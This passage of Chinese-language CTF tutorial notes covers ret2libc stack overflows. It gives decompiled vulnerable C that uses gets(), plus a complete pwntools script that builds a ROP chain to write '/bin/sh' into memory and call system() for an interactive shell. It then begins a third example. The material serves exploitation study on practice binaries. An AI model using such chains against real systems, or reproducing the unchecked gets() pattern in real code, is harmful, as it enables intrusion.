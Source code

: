 例子2，

与 ret2libc1 大同小异，只不过没有 /bin/sh 字符串，需要自己来读取字符串，所以需要两个 gadgets，第一个控制程序读取字符串，第二个控制程序执行 system("/bin/sh")。

```c++
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
    char s; // [esp+1Ch] [ebp-64h]

    setvbuf(stdout, 0, 2, 0);
    setvbuf(_bss_start, 0, 1, 0);
    puts("Something surprise here, but I don't think it will work.");
    printf("What do you think ?");
    gets(&s);
    return 0;
    }
```

```python
    from pwn import *

    p = process('./ret2libc2')
    elf = ELF('./ret2libc2')

    system_plt = elf.sym['system']
    gets_plt = elf.sym['gets']
    log.info("system_plt = %#x, gets_plt = %#x"%(system_plt,gets_plt))

    binsh_addr = 0x0804A080
    pop_ebx = 0x0804843D
    payload = flat(['A'*(0x6c+4), gets_plt, pop_ebx, binsh_addr, system_plt, 0x08048500, binsh_addr])
    # payload = 'A'*(0x6c+4) + p32(gets_plt) + p32(system_plt) + p32(binsh_addr) + p32(binsh_addr)

    p.sendline(payload)
    sleep(0.1)
    p.sendline('/bin/sh\x00')
    sleep(1)
    p.interactive()
```

例子3，

```c++
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
    char s; // [esp+1Ch] [ebp-64h]

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 1, 0);
    puts("No surprise anymore, system disappeard QQ.");
    printf("Can you find it !?");
    gets(&s);
    return 0;
    }
```
